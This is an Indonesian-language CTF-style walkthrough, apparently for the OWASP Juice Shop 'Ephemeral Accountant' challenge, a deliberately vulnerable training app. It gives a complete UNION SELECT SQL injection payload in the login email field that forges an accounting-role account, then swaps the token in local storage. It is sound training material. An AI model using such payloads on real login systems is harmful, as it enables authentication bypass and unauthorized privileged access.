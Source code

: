 # Ephemeral Accountant

## Resource Belajar

https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/

# Step by step
1. Jadi awalnya anda hanya perlu intercept burpsuite saat login dengan email dan username random
  <img width="1439" height="856" alt="image" src="https://github.com/user-attachments/assets/56dec77a-a627-4205-9d6f-a6b56622b80c" />

2. Kemudian anda bisa buat payload untuk bypass dengan membuat akun fiktif dengan sql injection dengan payload berikut.
```{"email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'penguasabumi@juice-sh.op' AS `username`, 'penguasabumi@juice-sh.op' AS `email`, 'sedanglelah' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--", "password": "sedanglelah"}```
<img width="1439" height="856" alt="image" src="https://github.com/user-attachments/assets/733712b9-0353-4179-8907-d8fa109cdce7" />

3. Setelah itu anda tinggal merubah token pada local storage dengan token yang memiliki role accountant tadi.
   <img width="1439" height="856" alt="image" src="https://github.com/user-attachments/assets/f82cf5f4-5e44-40d7-8f87-d43c30c57d98" />

   <img width="1439" height="856" alt="image" src="https://github.com/user-attachments/assets/8357bcf6-474d-41a4-a394-a544c8d07ce2" />
